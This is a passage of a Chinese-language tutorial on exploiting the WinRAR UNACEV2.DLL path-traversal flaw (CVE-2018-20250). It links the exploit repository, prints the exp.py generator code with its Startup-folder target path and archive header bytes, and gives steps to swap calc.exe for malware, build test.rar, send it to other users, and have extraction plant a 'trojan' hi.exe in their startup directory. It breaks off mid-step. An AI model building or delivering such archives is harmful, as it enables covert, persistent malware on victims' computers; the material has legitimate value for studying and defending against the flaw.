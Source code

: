 ![](https://mmbiz.qpic.cn/mmbiz_jpg/0RFmxdZEDRPv4HdVLBZ5IFnkjrvd90aT5s5CIoNwOF6TndoxQD9MndOicaZM7h6RlmRmcN7WEVOnoJE97Ybx9yQ/640?wx_fmt=jpeg)

安装之后可以看到本地存在的 UNACEV2.DLL 动态链接库，它就是被利用的入口。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRPv4HdVLBZ5IFnkjrvd90aTQsziaLaCVibDu9mIAvXy6BWT49FETicC1c6LvN3JEzqfofzvD7fiagaZvg/640?wx_fmt=png)

第二步，从 github 中下载漏洞利用程序，如下图所示。

*   hello.txt 和 world.txt 是需要压缩的文件
    
*   calc.exe 是计算器，可以替换成恶意软件，它会被定向植入系统启动目录
    
*   exp.py 是运行的 Python 代码，它会将 hello.txt 和 world.txt 压缩，并隐藏恶意软件
    
*   acefile.py 是利用 UNACEV2.DLL 漏洞的代码，共 4000 多行  
    https://github.com/backlion/CVE-2018-20250
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRPv4HdVLBZ5IFnkjrvd90aTF6stCkV4Ng8rFeTicFoFzYEJTG1CQDiavHlsgDWEG6RrZqlSNj2TVWiaw/640?wx_fmt=png)

我们尝试打开 exp.py 文件，代码如下，其中恶意软件为 “calc.exe”、压缩包名称为“test.rar”、需要压缩的文件为“hello.txt” 和“world.txt”、隐藏的路径为 Windows 系统开机启动的目录，并命名为“hi.exe”。读者也可以尝试修改名称，自定义需要压缩的文件及恶意软件。

```
#!/usr/bin/env python3import osimport reimport zlibimport binascii# The archive filename you wantrar_filename = "test.rar"# The evil file you want to runevil_filename = "calc.exe"# The decompression path you want, such shown belowtarget_filename = r"C:\C:C:../AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\hi.exe"# Other files to be displayed when the victim opens the winrar# filename_list=[]filename_list = ["hello.txt", "world.txt"]class AceCRC32:    def __init__(self, buf=b''):        self.__state = 0        if len(buf) > 0:            self += buf    def __iadd__(self, buf):        self.__state = zlib.crc32(buf, self.__state)        return self.... if __name__ == '__main__':    print("[*] Start to generate the archive file %s..."%(rar_filename))    shellcode_head = "6B2831000000902A2A4143452A2A141402001018564E974FF6AA00000000162A554E524547495354455245442056455253494F4E2A"    build_file(shellcode_head, rar_filename)    for i in range(len(filename_list)):        build_file_once(filename_list[i])    build_file_once(evil_filename, target_filename)    print("[+] Evil archive file %s generated successfully !"%(rar_filename))
```

第三步，打开 Python 运行 exp.py 代码，将自动生成 test.rar 压缩包。  
注意，如果未安装 Python 或相关包，需要进行安装。同时不能双击 exp.py，需要 Python 来运行代码。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRPv4HdVLBZ5IFnkjrvd90aTic0mKC27bmmnu2woFicQFcb66M5yMM9gMa8e0VMvQTCw6QAubj5WC8vQ/640?wx_fmt=png)

第四步，此时在当前文件夹生成了 test.rar 文件，将该压缩包发送给其他用户，如果目标电脑存在 WinRAR 漏洞，则会造成影响。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRPv4HdVLBZ5IFnkjrvd90aTb4pdkWyqBTFBFlgsQXsvbElCLgPQxwtBr4EMyiaJfw25sl0vnYyPB9Q/640?wx_fmt=png)

注意：QQ 和 Win10 防火墙已经能识别出该 CVE 漏洞号，如下图所示。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRPv4HdVLBZ5IFnkjrvd90aT57avnpZeeMMwTpuXh1kCJG0uN9CGSAK0LxH9nunQyHQ13VzIajNB7A/640?wx_fmt=png)

第五步，当目标用户在桌面解压该文件夹，则会在电脑启动目录放入我们的木马文件，命名为 “hi.exe”。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRPv4HdVLBZ5IFnkjrvd90aTYvZeH66cxlT4f8UCAMI4U9NDFuHYYBHmrHRszRNaHKVnRKhCBNP8Pg/640?wx_fmt=png)

Win10 路径：
